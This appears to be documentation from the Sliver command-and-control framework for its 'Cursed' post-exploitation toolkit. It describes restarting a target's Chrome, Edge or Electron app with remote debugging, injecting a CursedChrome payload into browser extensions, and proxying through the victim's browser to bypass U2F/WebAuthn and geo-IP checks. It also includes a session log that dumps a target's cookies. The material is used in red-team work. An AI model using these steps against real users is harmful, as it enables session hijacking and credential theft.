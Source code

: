 Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https://github.com/papcaii/slisli-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.

Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.

## Cursed Chrome

The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target.

If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.

So a typical workflow looks like:

1. Setup [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!

## Cursed Edge

Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.

## Cursed Electron

The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.

## Cursed Console

The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome`, `cursed edge`, or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command. ![cursed](/images/cursed-1.png)

## Cursed Cookies

Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:

```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
